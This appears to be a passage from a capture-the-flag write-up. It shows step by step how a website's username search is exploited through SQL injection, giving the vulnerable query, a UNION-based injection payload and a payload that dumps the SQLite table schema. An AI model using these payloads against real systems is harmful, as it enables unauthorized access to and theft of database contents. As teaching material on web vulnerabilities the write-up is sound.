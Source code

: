 ```sql
SELECT [username_col_name],[bio_column_name] FROM [database_name] WHERE [username_col_name] LIKE "%";--%"
```

Now, we can insert any SQL code between the original code and the end of the line using a UNION as long as the code outputs a table with 2 columns. Here is an example payload:
```
input: " UNION SELECT 1,2;--
```
```sql
SELECT [username_col_name],[bio_column_name] FROM [database_name] WHERE [username_col_name] LIKE "%" UNION SELECT 1,2;--%"
```

Trying this on the website, we see that we get an extra row in the output and so we now have successful SQL injection.

![Successful SQL Injection!](Images/sql_injected2.png)
## Leaking out Database Information
Now that we can inject our own SQL code, we can next enumerate the table schema in order to see what other information we can get from the database with the folliwng command
```sql
SELECT 1,sql FROM sqlite_master WHERE type='table'
```
Note that in this command, we are selecting two columns due to how we are doing the SQL injection.
Running this on the website, we get the following:
```
input: " UNION SELECT 1,sql FROM sqlite_master WHERE type='table';--
```
![Table Dumped!](Images/table_dump.png)
